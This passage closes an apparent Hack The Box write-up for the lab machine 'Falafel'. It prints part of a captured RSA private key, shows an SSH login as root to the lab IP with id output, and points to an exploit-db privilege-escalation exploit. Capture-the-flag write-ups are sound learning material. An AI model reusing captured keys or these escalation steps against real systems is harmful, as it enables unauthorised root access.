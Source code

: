 ```bash
ahkTSKUnpk2/EVRQriFjlXuvBoBh0qLVhZIKqZBaavU6iaplPVz72VvLAoGBANj0
GcJ34ozu/XuhlXNVlm5ZQqHxHkiZrOU9aM7umQkGeM9vNFOwWYl6l9g4qMq7ArMr
5SmT+XoWQtK9dSHVNXr4XWRaH6aow/oazY05W/BgXRMxolVSHdNE23xuX9dlwMPB
f/y3ZeVpbREroPOx9rZpYiE76W1gZ67H6TV0HJcXAoGBAOdgCnd/8lAkcY2ZxIva
xsUr+PWo4O/O8SY6vdNUkWIAm2e7BdX6EZ0v75TWTp3SKR5HuobjVKSht9VAuGSc
HuNAEfykkwTQpFTlmEETX9CsD09PjmsVSmZnC2Wh10FaoYT8J7sKWItSzmwrhoM9
BVPmtWXU4zGdST+KAqKcVYubAoGAHR5GBs/IXFoHM3ywblZiZlUcmFegVOYrSmk/
k+Z6K7fupwip4UGeAtGtZ5vTK8KFzj5p93ag2T37ogVDn1LaZrLG9h0Sem/UPdEz
HW1BZbXJSDY1L3ZiAmUPgFfgDSze/mcOIoEK8AuCU/ejFpIgJsNmJEfCQKfbwp2a
M05uN+kCgYBq8iNfzNHK3qY+iaQNISQ657Qz0sPoMrzQ6gAmTNjNfWpU8tEHqrCP
NZTQDYCA31J/gKIl2BT8+ywQL50avvbxcXZEsy14ExVnaTpPQ9m2INlxz97YLxjZ
FEUbkAlzcvN/S3LJiFbnkQ7uJ0nPj4oPw1XBcmsQoBwPFOcCEvHSrg==
-----END RSA PRIVATE KEY-----
```
Does it actually work?
```bash
root@sushi:~/hackthebox/falafel# ssh -i root.key root@10.10.10.73
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Tue May  1 20:14:09 2018 from 10.10.14.4
root@falafel:~# id
uid=0(root) gid=0(root) groups=0(root)
```
Another method that isnt very exciting was to use the rational love priv esc here https://www.exploit-db.com/exploits/43775/ but it has been patched out of the box apparently. Really cool machine with the php type juggling and different privilege escalations, thanks to dm0n and Stylish for coming up with this one on hackthebox. 








